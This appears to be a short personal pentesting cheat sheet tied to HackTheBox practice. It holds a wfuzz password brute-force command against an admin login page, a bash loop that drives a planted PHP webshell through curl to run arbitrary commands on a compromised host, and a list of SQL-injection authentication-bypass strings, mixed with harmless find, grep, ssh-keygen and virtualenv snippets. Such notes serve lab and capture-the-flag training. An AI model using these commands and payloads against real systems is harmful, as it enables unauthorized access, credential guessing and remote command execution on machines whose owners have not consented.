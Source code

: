 Password Bruteforce

```sh
wfuzz -c -z file,common.txt --hh 18170 -d "Action=Login&RequestedURL=Action%3DAdmin&Lang=en&TimeOffset=240&User=root@localhost&Password=FUZZ" http://192.168.8.9/admin.php
```

## Bash Misc

Find

```sh
find . -type f -newermt 2018-12-19 ! -newermt 2018-12-21 -ls
```

Grep Awesome

```sh
grep -l -R -e "\$_GET\['doc'\]" $(grep -l -R -e "\$_GET\['app'\]" `grep -l -R -e vqmods`)
```

Small ssh key

```sh
ssh-keygen -t ed25519 -f 0x4rt3mis
```

## Pseudo WebShell PHP

```sh
#!/bin/bash
# 0x4rt3mis
# Shell "pseudo" - Compromissed HackTheBox

echo "exit for exit"
input=""
while [ "$input" != "exit" ]
do
    echo -n "> "
    read input
    curl -GET http://10.10.10.207/shop/vqmod/xml/payload.php --data-urlencode "cmd=$input"
done
```

## Python Virtual Env

```py
virtualenv -p python2.7 exploit
cd exploit
source bin/activate
```

## Wordlist Auth Bypass

```
" "
" #
" --
"&"
"*"
"-"
"/*
"^"
'
' #
' '
' -
' --
```